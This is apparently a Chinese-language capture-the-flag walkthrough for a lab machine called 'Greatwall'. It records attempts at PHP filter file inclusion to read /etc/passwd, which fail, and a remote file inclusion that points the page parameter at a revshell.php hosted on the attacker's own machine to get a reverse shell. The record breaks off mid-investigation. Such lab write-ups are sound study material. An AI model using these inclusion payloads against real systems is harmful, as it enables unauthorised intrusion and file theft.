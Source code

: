 ## 漏洞发现

### 踩点

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506190103367.png" alt="image-20250618080024126" style="zoom:50%;" />

查看源代码：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506190103368.png" alt="image-20250618080049456" style="zoom:50%;" />

可以看到是`GET`传参，尝试看一下：

```bash
http://192.168.10.129/?page=https%3A%2F%2Fwww.baidu.com
```

### RFI(试错)

尝试进行本地文件包含：

```bash
┌──(kali㉿kali)-[~/temp/Greatwall]
└─$ curl -s "http://192.168.10.129/?page=php://filter/convert.base64-encode/resource=../../../../../etc/passwd" | html2text
Across the Great Wall we can reach every corner in the world
[page                ]
nonono~

```

可能有过滤，尝试编码字符再尝试：

```bash
# php://filter/convert.base64-encode/resource=../../../../../etc/passwd
# php%3A%2F%2Ffilter%2Fconvert%2Ebase64%2Dencode%2Fresource%3D%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fpasswd
┌──(kali㉿kali)-[~/temp/Greatwall]
└─$ curl -s "http://192.168.10.129/index.php?page=php%3A%2F%2Ffilter%2Fconvert%2Ebase64%2Dencode%2Fresource%3D%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fpasswd" | html2text
Across the Great Wall we can reach every corner in the world
[page                ]
nonono~
```

难道是RFI？尝试一下：

```bash
# http://192.168.10.128:8888/revshell.php
http://192.168.10.129/?page=http%3A%2F%2F192%2E168%2E10%2E128%3A8888%2Frevshell%2Ephp
```

然后就开始加载，过了一会并未发现shell有请求发过来，下面的请求是我主机进行测试的结果：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506190103369.png" alt="image-20250618081831592" style="zoom:50%;" />

尝试进行定位文件：
